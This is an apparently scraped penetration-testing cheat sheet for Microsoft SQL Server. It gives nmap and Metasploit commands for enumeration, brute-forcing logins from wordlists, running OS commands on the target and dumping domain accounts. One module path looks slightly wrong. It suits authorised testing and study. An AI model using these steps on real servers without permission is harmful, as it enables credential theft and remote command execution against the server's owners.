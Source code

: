 ##### Enumerate MSSQL Server
```
nmap -p1433 --script ms-sql-info IP
```

##### Discover valid Users and their Passwords
```
use auxiliary/scanner/mssql/mssql_login
set rhosts IP
set user_file /root/Desktop/wordlist/common_users.txt
set pass_file /root/Desktop/wordlist/100-common-passwords.txt
set verbose false
run
```

##### Enumerate MSSQL configs
By default in Metasploit `sa` user is set to **USERNAME** and **PASSWORD** is empty ''
```
use auxiliary/admin/mssql/mssql_enum
set rhosts IP
run
```

##### Enumerate and Extract all MSSQL Users
```
use auxiliary/admin/mssql/mssql_enum_sql_logins
set rhosts IP
run
```

##### Execute a Command on the Target
```
use auxiliary/admin/mssql/mssql_exec
set rhosts IP
set cmd whoami
run
```

##### Enumerate all available System Users
This module dumps the information such as Windows domain users, groups, and computer accounts
```
use auxiliary/admin/mssql_enum_domain_accounts
set rhosts IP
run
```